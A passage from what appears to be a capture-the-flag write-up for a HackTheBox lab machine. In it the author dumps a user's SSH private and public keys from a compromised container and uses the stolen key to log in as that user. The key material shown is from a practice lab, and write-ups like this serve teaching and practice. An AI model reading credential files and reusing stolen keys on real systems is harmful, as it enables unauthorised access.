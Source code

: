 2UIvlsa0jCjxKXmQ4vVX6Ez0ak+6r5VuZFFoalVXvbZSLomIya4vYETv1Oq8EPeh
KHjq5wFdlYdOXqyJus7vFtB9nbCUrgH/a3og0/6e8TA46FuP1/sFMV67cdTlXfYI
Y4sGV/PS/uLm6/tcEpmGiVdcUJHpMECZvnx9aSa/kvuO5pNfdFvnQ4RVA8q/w6vN
p3pDI9CzdnkYmH5/+/QYFsvMk4t1HB5AKO5mRrc1x+QZBhtUDNVAaCu2mnZaSUhE
abZo0oMZHG8sETBJeQRnogPyAjwmAVFy5cDTLgag9HlFhb7MLgq0dgN+ytid9YA8
pqTtx8M98RDhVKqcVG3kzRFc/lJBFKa7YabTBaDoWryR0+6x+ywpaBGsUXEoz6hU
UvLWH134w8PGuR/Rja64s0ZojGYsnHIl05PIntvl9hinDNc0Y9QOmKde91NZFpcj
pDlNoISCc3ONnL4c7xgS5D2oOx+3l2MpxB+B9ua/UNJwccDdJUyoJEnRt59dH1g3
cXvb/zTEklwG/ZLed3hWUw/f71D9DZV+cnSlb9EBWHXvSJwqT1ycsvJRZTSRZeOF
Bh9auWqAHk2SZ61kcXOp+W91O2Wlni2MCeYjLuw6rLUHUcEnUq0zD9x6mRNLpzp3
IC8VFmW03ERheVM6Ilnr8HOcOQnPHgYM5iTM79X70kCWoibACDuEHz/nf6tuLGbv
N01CctfSE+JgoNIIdb4SHxTtbOvUtsayQmV8uqzHpCQ3FMfz6uRvl4ZVvNII/x8D
u+hRPtQ1690Eg9sWqu0Uo87/v6c/XJitNYzDUOmaivoIpL0RO6mu9AhXcBnqBu3h
oPSgeji9U7QJD64T8InvB7MchfaJb9W/VTECST3FzAFPhCe66ZRzRKZSgMwftTi5
hm17wPBuLjovOCM8QWp1i32IgcdrnZn2pBpt94v8/KMwdQyAOOVhkozBNS6Xza4P
18yUX3UiUEP9cmtz7bTRP5h5SlDzhprntaKRiFEHV5SS94Eri7Tylw4KBlkF8lSD
WZmJvAQc4FN+mhbaxagCadCf12+VVNrB3+vJKoUHgaRX+R4P8H3OTKwub1e69vnn
QhChPHmH9SrI2TNsP9NPT5geuTe0XPP3Og3TVzenG7DRrx4Age+0TrMShcMeJQ8D
s3kAiqHs5liGqTG96i1HeqkPms9dTC895Ke0jvIFkQgxPSB6y7oKi7VGs15vs1au
9T6xwBLJQSqMlPewvUUtvMQAdNu5eksupuqBMiJRUQvG9hD0jjXz8f5cCCdtu8NN
8Gu4jcZFmVvsbRCP8rQBKeqc/rqe0bhCtvuMhnl7rtyuIw2zAAqqluFs8zL6YrOw
lBLLZzo0vIfGXV42NBPgSJtc9XM3YSTjbdAk+yBNIK9GEVTbkO9GcMgVaBg5xt+6
uGE5dZmtyuGyD6lj1lKk8D7PbCHTBc9MMryKYnnWt7CuxFDV/Jp4fB+/DuPYL9YQ
8RrdIpShQKh189lo3dc6J00LmCUU5qEPLaM+AGFhpk99010rrZB/EHxmcI0ROh5T
1oSM+qvLUNfJKlvqdRQr50S1OjV+9WrmR0uEBNiNxt2PNZzY/Iv+p8uyU1+hOWcz
-----END RSA PRIVATE KEY-----

root@beehive:/home/spanishdancer/.ssh# cat id_rsa.pub	
cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC325QNrOHp+Ob93i/XR2XkXZ1k/ypSbKhdcKB2CQLNW1jXp+CKnb5wmin/hEJ8u3Crm5YsFjg/K/x6hBDa0TwpwQxIZ7y1JbWFXL3XRdvpi6YrIMdUwGs3lCAUwJhazVnOUAY92EnoLdQlbPgXT4gVxMfW37YDBC3Gg2YJRKUkrDaYsI9oxvGMU1vmigb/0Ck/+kG/n0yOa0NBb2orEwQYoqX1cW4PnuTmR7bD53PsWmNcYhLxSvd783tz9Q/Np7q9/ziPo2QCN1R0fY7UykmASA1hedfI6C2mUKaETN4vKnfVeppb5m7wXhkSlYULE5PcmXuGoYCD6WtwAzPiwb1r spanishdancer@ariekei.htb
```



Looks like a ssh key for the user spanishdancer

It would be better if we could ssh into the user instead of spawning shellz :D

lets go

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>

Le SSH Password

```
root@kali:~/hackthebox/Ariekei# ssh -i id_rsa spanishdancer@ariekei.htb
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)
